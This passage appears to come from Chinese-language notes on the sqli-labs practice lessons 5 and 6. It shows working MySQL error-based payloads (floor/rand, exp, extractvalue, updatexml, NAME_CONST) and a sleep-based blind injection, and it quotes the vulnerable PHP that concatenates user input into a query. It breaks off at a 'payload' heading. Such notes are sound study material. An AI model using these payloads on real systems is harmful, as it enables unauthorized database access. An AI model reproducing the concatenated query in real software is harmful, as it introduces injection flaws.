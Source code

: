 > +------------------------+
> 1 row in set
> ```

> ORD() 函数  
> ORD() 函数返回字符串第一个字符的ASCII值。

#### 报错注入
使用less-5 进行报错注入
使用`count`、`floor`、`rand`、`group by` 进行报错注入
```
?id=1' union select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+
```
![image](https://note.youdao.com/yws/res/11071/6013699E349446D2977005952651D6A2)

使用`exp`进行报错注入
```
?id=1' union select (exp(~(select * FROM(SELECT USER())a))),2, 3--+
```
使用`xpath`进行报错注入

```
' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) --+
```
![image](https://note.youdao.com/yws/res/11076/C7DDE2A2CD7944188542A6573521C9EA)

```
?id=1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) --+
```

![image](https://note.youdao.com/yws/res/11078/20F588C2A90840D1A5FA9C302BF64683)

利用数据重复性

```
?id=1'union select 1,2,3 from (select NAME_CONST(version(),1), NAME_CONST(version(),1))x --+
```
![image](https://note.youdao.com/yws/res/11083/7BB1EC61F84D499FBFCBD47CCDE83011)

#### 延时注入
如果ascii=115 会有3秒延迟
```
?id=1' and If(ascii(substr(database(),1,1))=115,sleep(3),1)--+
```
![image](https://note.youdao.com/yws/res/11087/C8252FE181E843E58568EAC307EA6A0F)

## less-6 
##### index.php
与less-5 注入方式相同，闭合方式不同
```
$id=$_GET['id'];
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
if($row){
echo 'You are in...........';
}else{
print_r(mysqli_error($con1));
}
```
#### payload
